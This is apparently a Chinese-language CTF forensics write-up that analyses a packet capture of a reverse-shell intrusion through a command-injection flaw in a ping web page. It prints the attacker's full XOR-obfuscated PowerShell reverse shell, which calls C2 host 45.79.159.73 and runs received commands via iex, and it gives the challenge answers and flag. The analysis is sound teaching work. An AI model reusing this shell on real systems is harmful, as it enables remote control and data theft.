







# HW 0x01 - Reverse Shell

Forensics, 250 points

Auther: **stavhaygn**

Writeup By: **yctseng1227**

## Description

我架的破爛網站似乎被攻擊啦~!? 你能幫我從封包檔裡分析出駭客C2的IP、操作的指令、搜集到的資訊與被偷走的檔案內容(含 flag)嗎?

求求你了大大! QAQ ~ <(_ _)>

[reverse_shell.pcap](./reverse_shell.pcap)

> Hint: powershell, reverse shell, symmetric encryption


## Solution

題目給定一封包檔 `.pcap` 進行分析，在封包數量不多的前提用 `Follow > TCP stream` 把零碎的封包片段組起來方便查看，可以發現全部 14 筆 TCP stream 大部分都算是可讀資訊，但經過一段 PowerShell script 後，有一整段的封包完全不可讀（如圖）。







從 PowerShell 不難看出有經過 [Base64](https://en.wikipedia.org/wiki/Base64) 混淆（注意最後的`%3D`其實就是 URL encode 的`=`），這題上線的前兩天恰好是中山資安社 講師[Still](https://stillu.cc) 講過的 PowerShell 奇淫巧技，把 Base64 解開來後就跟社課一樣可以逐步分析。


> 1. 請善用 VSCode 的 highlight 功能
> 2. script 是以 `;` 作為語義上的結尾，所以可直接取代成換行`\n` (但要注意迴圈內的分號)
> 3. 加密key `$xor_passwd` 中間那個是 "0" 不是 "Ｏ" ... 如果寫錯會還原不完整xD


[Get-xor.ps1](./Get-xor.ps1)
```shell=
function Get-Xor {
    $xor_passwd = "x0R_"
    $padding_xor_passwd = ($xor_passwd * [int]($args[0].Length / $xor_passwd.Length)) + $xor_passwd.Substring(0, $args[0].Length % $xor_passwd.Length)
    $args[0] = [System.Text.Encoding]::UTF8.GetBytes($args[0])
    $args[0] = $(
        for ($i = 0; $i -lt $args[0].Length; $i++) {
            $args[0][$i] -bxor $padding_xor_passwd[$i]
        })
    [System.Text.Encoding]::UTF8.GetString($args[0])
}


$client = New-Object System.Net.Sockets.TCPClient("45.79.159.73", 39637)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $command = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $command = Get-Xor $command
    $response = (iex $command 2>&1 | Out-String )
    $response = $response + "PS " + (pwd).Path + "> "
    $response = GET-Xor $response
    $response = ([text.encoding]::ASCII).GetBytes($response)
    $stream.Write($response,0,$response.Length)
    $stream.Flush()
}

$client.Close()
```

應該有不少人是拿到 PowerShell script 就直接拿去 Run，提醒一下在野生環境千萬不要這麼做，因為那等於是你幫駭客執行惡意程式 XDDD （助教非常扼腕應該要把 C&C server 開著等同學連進來後再幫對方彈個小算盤www）


關於上面這段 code ，總共可以分成兩個部分：

1. 單獨來看 Get-Xor function 其實就是拿 input 和 xor_passwd 做 XOR 運算，其中 xor_password 長度不足的部分就重複 padding，必要時可以開 PowerShell 測試。
要注意的是算出來的字串不一定都是可視字元（也不要直接把 wireshark 的 ASCII 字串手動複製==）。

2. 從中間(line 13)開始是 C&C server 連線建立，在送出指令和接收資訊的時候分別做 Get-Xor 混淆，這也是為何 wireshark 有一整段都看不懂的原因。這段 script 其中 `iex` ([Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7)) 就是執行的部分，有點像 Python `eval` 這類的容易被駭客濫用的危險功能。
 

知道混淆方式，那就有辦法還原啦！

不知道各位是如何把密文 dump 出來，這裡是直接用 Python 把指定封包條件下的字串拿出來的同時順便解密，先簡單帶一下 [scapy](https://scapy.readthedocs.io/en/latest/) 套件的使用方式。


```python
## Python3
>>> from scapy.all import *
>>> pkts = rdpcap('./reverse_shell.pcap') # read pcap file
>>> type(pkts) # check data tpye
<class 'scapy.plist.PacketList'>
>>> pkts[0].show() # use show() or display() to see info in packet
###[ Ethernet ]###
  dst       = ff:ff:ff:ff:ff:ff
  src       = 08:00:27:8c:d3:ad
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 229
     id        = 29572
     flags     =
     frag      = 0
     ttl       = 128
     proto     = udp
     chksum    = 0xad76
     src       = 10.0.2.15
     dst       = 10.0.2.255
     \options   \
###[ UDP ]###
     sport     = netbios_dgm
     dport     = netbios_dgm
     len       = 209
     chksum    = 0x19f0
( etc. )
>>> pkts[0]['IP'].show() # show spectify field info following
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 229
     id        = 29572
     flags     =
     frag      = 0
     ttl       = 128
     proto     = udp
     chksum    = 0xad76
     src       = 10.0.2.15
     dst       = 10.0.2.255
     \options   \
###[ UDP ]###
     sport     = netbios_dgm
     dport     = netbios_dgm
     len       = 209
     chksum    = 0x19f0
( etc. )
>>> pkts[0]['IP'].src # show spectify field info 
'10.0.2.15'
```


透過上述的用法就能拿來找指定info，以下 code 僅供參考。

[decode.py](./decode.py)
```python=
from scapy.all import *

pkts = rdpcap('reverse_shell.pcap')

with open('out.raw', 'w') as f:
    for p in pkts:
        if 'IP' in p and ( p['IP'].src == '45.79.159.73' or p['IP'].dst == '45.79.159.73' ):
            if 'Raw' in p and ( p['TCP'].sport==39637 or p['TCP'].dport==39637 ):
                #f.write(p['Raw'].load)
                raw = p['Raw'].load
                xor_passwd = "x0R_"
                res = ""
                for idx, word in enumerate(raw):
                    res += chr(word ^ ord(xor_passwd[idx%4]))
                #print(res, end="")
                f.write(res)
```

在抓資料的過程順便解密+寫檔，順利的話結果會很~漂~亮~ [result.out](./result.out)

從結果來看可以發現駭客利用受害主機上傳了一份 `secret.docx` 到 C&C server，所以下一步我們要把檔案抓出來。

檔案一樣是藏在題目給的封包檔中，需要把藏在封包裡的 binary 處理一下拿到 .docx，具體操作如下。



同樣用 `Follow > TCP stream` 觀察，很容易找到這份看起來就是**被**處理過的資料，可以透過 `File > Export Objects > HTTP...` 把指定的封包 dump 出來。

 

這部分可以從檔案類型 "multipart/form-data" 辨別，然後存成 secret.docx 。
再來你會發現... 雙擊點開檔案是毀損檔案，這時就可以自己另外開一份加密過的 word，並把這兩份檔案用 十六進制編輯器 打開比較看看。



如圖，左半部是我自己產生的加密 .docx，右半部則是從封包 dump 出來的檔案，應該不難看出 secret.docx 的檔頭混了很多額外資訊，但透過比對把 0x`D0CF` 之前的 hex 拿掉就可以還原成正常的加密 .docx（至於檔尾只會讀到 `</encryption>` 所以有沒有改動都不影響）。

最後，透過還原出來的 [result.out](./result.out)，仔細看一下就能找到 secret.docx 的密碼，拿 Flag !!


## Problem

1.	受害主機的外部(實體) IP位址是?
> 140.117.169.233
2.	駭客C2主機所使用的IP位址和port?
> 45.79.159.73:39637
3.	C2主機是哪一家虛擬專屬主機(VPS)提供商所提供的? 
> Linode



4.	Reverse shell的TCP連線內容是用哪一種加密演算法加密? 加密金鑰是?
> XOR cipher、x0R_
5.	受害主機所在的AD域的域名?
> macaca.lab
6.	受害主機所在的AD域中的IP位址?
> 192.168.77.30
7.	AD域中的DNS主機的名稱與IP位址?
> dc.macaca.lab、192.168.77.10
8.	網站產生漏洞原因是? 
> 於網站中存在含有 RCE(Remote Code Execution) 漏洞，且針對輸入的參數並沒有進行格式檢查，導致駭客可以透過植入C&C惡意程式洩漏資訊。
9.	上傳洩漏資料的網站所用的port?
> 42794
10.	flag是?
> flag{p0w3rsh3ll_1s_funny}


## Extra

> 請嘗試完整說明此次駭客從利用網站漏洞到資料外洩的攻擊事件流程

推測原始網站的功能為 輸入IP回傳Ping IP的結果，但是由於網站後端並沒有針對輸入進行格式檢查，且存在RCE漏洞導致被駭客利用。

> 駭客攻擊思路如下：



駭客先是使用 `dir` 指令成功讓網站執行並回傳資訊，確認 RCE 漏洞，再利用 PowerShell 不被 Windows 偵測的特性使用無檔案攻擊，將指令執行至 [AD](https://en.wikipedia.org/wiki/Active_Directory) 中的子網域主機。在指令方面，駭客主要建立C&C主機連線，並且將輸入指令以及回傳資訊透過 Get-Xor function 進行混淆，用意是增加資安人員在鑑識分析上的困難度。

駭客取得主機執行指令的使用者權限後進行搜集情資，包含查看當前使用者(whoami)、網卡資訊(ipconfig /all)、系統資訊(systeminfo)、列出arp紀錄(arp -a)，查看網域底下其他主機資訊(nslookup)，最後才開始針對目錄進行探索。

駭客從原目錄 `C:\Users\web\xampp\htdocs` 逐步移動到 `C:\Users\web\Desktop\_` 發現 passwords.txt 拿到ftp、docx、sso三組密碼，同時也在`C:\Users\web\Downloads` 底下找到 secret.docx，最後透過 PowerShell 指令將該檔案上傳至C&C Server。
